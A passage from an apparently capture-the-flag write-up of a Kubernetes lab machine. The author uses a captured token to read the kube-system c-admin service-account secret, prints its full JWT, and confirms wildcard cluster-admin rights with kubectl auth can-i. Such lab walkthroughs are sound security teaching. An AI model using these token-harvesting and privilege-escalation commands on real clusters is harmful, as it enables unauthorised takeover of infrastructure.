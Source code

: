 

Working down the list, the first one I picked to play with was
`c-admin-token-tfmp2`.



    oxdf@parrot$ kubectl describe secret c-admin-token-tfmp2 -n kube-system --token $(cat dev-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    Name:         c-admin-token-tfmp2
    Namespace:    kube-system
    Labels:       <none>
    Annotations:  kubernetes.io/service-account.name: c-admin
                  kubernetes.io/service-account.uid: 2463505f-983e-45bd-91f7-cd59bfe066d0

    Type:  kubernetes.io/service-account-token

    Data
    ====
    namespace:  11 bytes
    token:      eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow
    ca.crt:     1066 bytes



#### API as Admin

Now with that admin token, I'll check authorities again:



    oxdf@parrot$ kubectl auth can-i --list --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
    Resources                                       Non-Resource URLs                     Resource Names   Verbs
    *.*                                             []                                    []               [*]
                                                    [*]                                   []               [*]
    selfsubjectaccessreviews.authorization.k8s.io   []                                    []               [create]
    selfsubjectrulesreviews.authorization.k8s.io    []                                    []               [create]
                                                    [/.well-known/openid-configuration]   []               [get]
                                                    [/api/*]                              []               [get]
                                                    [/api]                                []               [get]
                                                    [/apis/*]                             []               [get]
                                                    [/apis]                               []               [get]
                                                    [/healthz]                            []               [get]
                                                    [/healthz]                            []               [get]
                                                    [/livez]                              []               [get]
                                                    [/livez]                              []               [get]
                                                    [/openapi/*]                          []               [get]
                                                    [/openapi]                            []               [get]
                                                    [/openid/v1/jwks]                     []               [get]
                                                    [/readyz]                             []               [get]
                                                    [/readyz]                             []               [get]
                                                    [/version/]                           []               [get]
                                                    [/version/]                           []               [get]
                                                    [/version]                            []               [get]
                                                    [/version]                            []               [get]
